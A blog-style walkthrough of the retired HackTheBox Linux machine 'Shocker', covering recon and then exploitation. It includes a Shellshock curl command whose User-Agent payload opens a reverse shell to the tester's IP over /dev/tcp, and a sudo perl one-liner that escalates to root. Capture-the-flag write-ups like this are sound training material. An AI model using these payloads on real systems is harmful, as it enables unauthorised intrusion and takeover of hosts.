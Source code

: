 ```yaml
---
title: Shocker - HackTheBox Walkthrough
date: 2021-10-06 12:00:00 
categories: [HackTheBox,Linux]
tags: [shellshock,sudo]
img_path: /assets/img/HTB/Shocker/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back to another walkthrough, this time we'll be doing `Shocker` a retired machine by HackTheBox. Without further ado, let’s begin.

# Recon

## Nmap

As always, we'll start with a nmap scan to discover the open ports and services.

![01-nmap](01-nmap.png)

The ports 80 and 2222 are open.

## Port 80

Let's see the web.

![02-webpage](02-webpage.png)

The web page not give us much information, therefore, we’ll run gobuster to find any accessible directory.

![03-gobuster](03-gobuster.png)

# Initial Foothold

We see in the screenshot above the `/cgi-bin/` directory, this directory always reminds me to the  `Shellshock` attack.
Running gobuster again to know the file and its extension.

![04-gobuster](04-gobuster.png)

With a listening port and executing the command below, we can get a reverse shell.

```console
$ curl -H "User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.31/443 0>&1" http://10.129.230.133/cgi-bin/user.sh
```

![05-shellshock](05-shellshock.png)

# Privilage Escalation

As we see in the screenshot below,  we can execute `perl` like root without password.

```console
$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![06-sudo](06-sudo.png)

We are root!!!
That’s it for now guys. Until next time.
